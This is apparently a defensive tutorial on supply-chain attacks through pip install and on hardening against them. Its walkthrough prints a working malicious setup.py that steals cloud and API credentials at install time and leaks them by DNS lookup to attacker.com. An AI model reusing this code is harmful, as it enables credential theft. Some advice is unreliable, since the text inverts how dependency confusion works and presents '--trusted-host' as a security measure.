

# Your pip install Is a Remote Code Execution: Practical Defenses Against Compromised PyPI Packages

## Introduction
Every time you execute `pip install`, you are initiating a remote code execution (RCE) primitive. The command doesn't just download files—it triggers arbitrary Python code on your machine during the install process. This isn't a theoretical vulnerability; it's the fundamental design of Python's package ecosystem. When you trust a package from PyPI, you are implicitly granting it execution privileges equivalent to your user account. The recent surge in supply-chain attacks targeting PyPI has transformed this convenience into a critical security liability.

## Why This Matters
In our production clusters, we discovered that a single compromised dependency can escalate from a minor version bump to a full cluster compromise. The Python Package Index (PyPI) has become a prime attack surface. Malicious packages often masquerade as popular libraries through typosquatting or dependency confusion attacks. When these packages execute, they can exfiltrate credentials, establish backdoors, or disrupt services. For cloud-native deployments where dependencies are installed at scale during CI/CD pipelines, the blast radius is catastrophic. We are not just protecting code—we are protecting the integrity of the entire deployment pipeline.

## How It Works
The mechanism is straightforward yet insidious. When `pip install` runs, it downloads the package archive and executes the `setup.py` script (or the build backend for modern packages). This script runs with the same privileges as the user invoking pip. Malicious code embedded in this script executes immediately, before the package is even installed. The attack chain flows from network request to local execution without user intervention.



The diagram illustrates the linear progression from command execution to system compromise. The critical vulnerability occurs at step E, where the package's build code executes with user privileges. This is not a bug—it's by design. Python's packaging system requires execution during installation to compile extensions, copy files, and run configuration scripts.

## Core Concepts
The foundation of this problem lies in the trust model. PyPI is an open registry without mandatory code signing or verification. Packages are maintained by unknown third parties, and the ecosystem relies on community moderation rather than cryptographic guarantees. Key concepts include:

- **Supply Chain Attacks**: Compromising a trusted provider to inject malicious code
- **Typosquatting**: Publishing packages with names similar to popular libraries
- **Dependency Confusion**: Exploiting package managers that prioritize private registries over public ones
- **Build Backend Execution**: Modern PEP 517 builds execute arbitrary code during installation

## Examples & Code Walkthrough
Let's examine a realistic scenario. Consider this malicious `setup.py` that exfiltrates environment variables:

```python
# malicious_package/setup.py
import os
import urllib.request
import subprocess
from setuptools import setup

def steal_credentials():
    """Exfiltrate sensitive environment variables"""
    sensitive_vars = ['AWS_SECRET_ACCESS_KEY', 'DATABASE_URL', 'API_TOKEN']
    stolen_data = {}
    
    for var in sensitive_vars:
        if var in os.environ:
            stolen_data[var] = os.environ[var]
    
    # Exfiltrate via DNS tunneling (stealthier than HTTP)
    if stolen_data:
        encoded = urllib.parse.quote(str(stolen_data))
        # This triggers a DNS lookup containing the stolen data
        subprocess.run(['nslookup', f'{encoded}.attacker.com'])

# Execute theft before package installation
steal_credentials()

setup(
    name="malicious-package",
    version="1.0.0",
    # ... rest of setup
)
```

To defend against this, we implement a multi-layered approach. First, use pip's hash-checking mode with a locked requirements file:

```python
# requirements.lock (with hashes)
# This file is autogenerated by pip-compile with hash checking
# To update, run: pip-compile --generate-hashes
certifi==2023.7.22 \
    --hash=sha256:... \
    --hash=sha256:...
django==4.2.5 \
    --hash=sha256:... \
    --hash=sha256:...
```

Install with strict hash verification:
```bash
pip install --require-hashes -r requirements.lock
```

For CI/CD environments, we deploy an air-gapped package index with pre-vetted packages:

```yaml
# .github/workflows/ci-cd.yml
name: Secure Deployment
on: [push, pull_request]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v3
    - name: Set up Python
      uses: actions/setup-python@v4
      with:
        python-version: '3.11'
    - name: Install dependencies
      run: |
        # Use internal mirror with package allowlisting
        pip install --index-url https://pypi.internal.example.com \
          --trusted-host pypi.internal.example.com \
          -r requirements.lock
    - name: Security scan
      run: |
        # Verify package integrity
        pip-audit -r requirements.lock
        bandit -r src/
```

## Best Practices
1. **Least Privilege Execution**: Never run `pip install` with root or administrative privileges. Use virtual environments or containers with minimal capabilities.

2. **Dependency Pinning**: Always pin exact versions with hash verification. Avoid floating tags like `>=` or `~>` in production.

3. **Air-Gapped Index**: For critical deployments, maintain a private PyPI mirror with pre-approved packages. Tools like devpi or JFrog Artifactory provide this capability.

4. **Automated Scanning**: Integrate `pip-audit`, `safety`, or `dependabot` into your CI/CD pipeline to detect known vulnerabilities.

5. **Supply Chain Verification**: Use tools like Sigstore to sign and verify package provenance. While not yet widespread, this represents the future of secure package management.

## Common Mistakes & Anti-Patterns
**Mistake 1: Installing packages in production without verification**
```bash
# DANGEROUS - No verification
pip install django-rest-framework
```
**Fix**: Always use hash-checked installations:
```bash
# SAFE - With verification
pip install --require-hashes -r requirements.lock
```

**Mistake 2: Using sudo with pip**
```bash
# CRITICAL - Grants system-wide compromise
sudo pip install package
```
**Fix**: Use virtual environments or user-level installations:
```bash
# SAFE - User-level installation
pip install --user package
# Or better, use a virtual environment
python -m venv venv
source venv/bin/activate
pip install package
```

**Mistake 3: Ignoring pip warnings about insecure sources**
```bash
# WARNING: The repository located at http://insecure-repo.com is not a trusted or secure host
pip install --index-url http://insecure-repo.com package
```
**Fix**: Always use HTTPS and trusted hosts:
```bash
# SECURE - Using HTTPS and trusted hosts
pip install --index-url https://pypi.org/simple \
  --trusted-host pypi.org package
```

## Performance Considerations
Hash verification adds computational overhead during installation, primarily due to cryptographic hash calculations. For large dependency trees, this can increase install times by 15-30%. However, this overhead is negligible compared to the security benefits. In CI/CD pipelines, caching verified packages eliminates repeated verification costs. Memory overhead is minimal—typically under 50MB for hash verification of standard dependency trees.

The trade-off becomes clear when considering the alternative: a compromised system can cost millions in downtime and recovery. The performance impact of hash verification is a negligible price for this security guarantee.

## Real-World Usage
Netflix employs a custom internal package repository with mandatory code review for all dependencies. Uber has implemented a zero-trust package management system that requires cryptographic signatures for all internal packages. Cloudflare uses a combination of allowlisting and automated vulnerability scanning to protect their edge infrastructure. These organizations recognize that package security is not a one-time implementation but an ongoing operational concern.

## Frequently Asked Questions

**Q: How can I verify a package hasn't been tampered with?**
A: Use pip's hash-checking mode with a locked requirements file. Generate hashes using `pip-compile --generate-hashes` and verify them during installation with `--require-hashes`.

**Q: Are there alternatives to PyPI for safer package management?**
A: Yes. Consider private PyPI mirrors like JFrog Artifactory, Sonatype Nexus, or cloud-native solutions like Google Artifact Registry. These provide access controls and audit logging.

**Q: How do I detect if a package is malicious?**
A: Use static analysis tools like `bandit` and `pip-audit`. Review package source code on GitHub before installation. Check package popularity, maintainer history, and community trust signals.

**Q: What's the impact of using `--no-deps`?**
A: While this prevents automatic dependency installation, it doesn't address the core issue. Manual dependency management is error-prone and can lead to missing security updates. Use with caution and thorough testing.

**Q: How do I handle legacy packages without hash support?**
A: For older packages, consider forking and maintaining a secure version, or migrating to actively maintained alternatives. Legacy packages without hash support represent significant security debt.

## Conclusion
The convenience of `pip install` comes with an inherent security risk that every engineer must acknowledge. By implementing hash verification, air-gapped indexes, and automated scanning, we can transform this RCE primitive into a controlled, auditable process. The defenses exist today—what's required is the discipline to implement them consistently. In an era of increasing supply-chain attacks, package security is not optional infrastructure; it's fundamental to operational integrity.
